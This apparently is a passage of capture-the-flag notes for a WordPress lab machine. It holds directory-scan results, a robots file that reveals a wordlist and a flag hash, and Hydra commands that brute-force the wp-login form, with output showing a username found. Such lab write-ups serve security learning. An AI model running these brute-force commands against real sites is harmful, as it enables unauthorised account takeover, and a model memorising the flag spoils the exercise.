 /wp-login             (Status: 200) [Size: 2606]
/css                  (Status: 301) [Size: 232] [--> http://10.10.59.193/css/]
/rss2                 (Status: 301) [Size: 0] [--> http://10.10.59.193/feed/]
/license              (Status: 200) [Size: 309]
/wp-includes          (Status: 301) [Size: 240] [--> http://10.10.59.193/wp-includes/]
/js                   (Status: 301) [Size: 231] [--> http://10.10.59.193/js/]
/Image                (Status: 301) [Size: 0] [--> http://10.10.59.193/Image/]
/rdf                  (Status: 301) [Size: 0] [--> http://10.10.59.193/feed/rdf/]
/page1                (Status: 301) [Size: 0] [--> http://10.10.59.193/]
/readme               (Status: 200) [Size: 64]
/robots               (Status: 200) [Size: 41]

10.10.59.193
root@fsociety:~#
commands: 
	prepare
	fsociety
	inform
	question
	wakeup
	join

http://10.10.59.193/robots
User-agent: *
fsocity.dic  - file with usernames and passwords 
key-1-of-3.txt  -- 073403c8a58a1f80d943455fb30724b9

readme 
I like where you head is at. However I'm not going to help you.

http://10.10.59.193/license
what you do just pull code from Rapid9 or some s@#% since when did you become a script kitty?

[jmk@arch THM]$ hydra -L fsocity.dic -p test 10.10.59.193 http-post-form "/wp-login.php:log=^USER^&pwd=^PWD^:Invalid username" -t 30
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-08-03 18:16:04
[DATA] max 30 tasks per 1 server, overall 30 tasks, 858235 login tries (l:858235/p:1), ~28608 tries per task
[DATA] attacking http-post-form://10.10.59.193:80/wp-login.php:log=^USER^&pwd=^PWD^:Invalid username
[80][http-post-form] host: 10.10.59.193   login: Elliot   password: test
[STATUS] 1854.00 tries/min, 1854 tries in 00:01h, 856381 to do in 07:42h, 30 active
[80][http-post-form] host: 10.10.59.193   login: elliot   password: test


[jmk@arch THM]$ hydra -l Elliot -P fsocity.dic 10.10.59.193 http-post-form "/wp-login.php:log=^USER^&pwd=^PWD^:The password you entered for the username" -t 30
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).
